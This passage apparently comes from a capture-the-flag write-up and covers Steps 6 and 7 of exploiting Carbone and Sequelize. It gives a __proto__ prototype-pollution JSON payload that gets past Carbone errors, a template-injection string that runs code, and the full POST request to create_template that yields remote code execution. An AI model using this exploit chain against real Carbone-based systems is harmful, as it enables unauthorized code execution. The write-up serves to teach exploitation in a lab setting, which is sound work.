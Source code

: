 ### Step 6: Bypassing Carbone errors

This one was a bit simpler to investigate and solve. We follow the stack trace and look through the code:

```js
function findAndSetValidPositionOfConditionalBlocks (xml, descriptor) {
  // TODO performance: flattenXML should be called earlier and used also to find array positions
  var _xmlFlattened = parser.flattenXML(xml);
  for (var _objName in descriptor) {
    var _xmlParts = descriptor[_objName].xmlParts;
    var _conditionalBlockDetected = [];
    var _newParts = [];
    for (var i = 0; i < _xmlParts.length; i++) {
      ...
```

_xmlParts is undefined. Even though it took me longer to realize this, all we needed to do was "create" xmlParts by polluting it with an empty array.

```json
"__proto__":{
  "fields":[],
  "attributes":[
  "id","username","password","firstname","lastname"
  ],
  "xmlParts":[]
}
```

### Step 7: Testing everything

Now that we have bypassed both Sequelize and Carbone errors, we can test our payload. By following the POC and Github commit, we create the following XML file:
```xml
{d.firstname:a;console.log`hacked`;//}
```
Then, we make the POST request to create_template:
```json
{
"__proto__":{
  "a;console.log`hacked`;//":1,
  "fields":[],
  "attributes":["id","username","password","firstname","lastname"],
  "xmlParts":[],
},
"firstname":"team > r0/dev/null","lastname":"best team",
"uuid":"07b184d8-93e6-4750-b781-2b76d2777c75",
"id":22
}
```

And, voila!

![RCE](/assets/img/writeups/complainio/success.png)
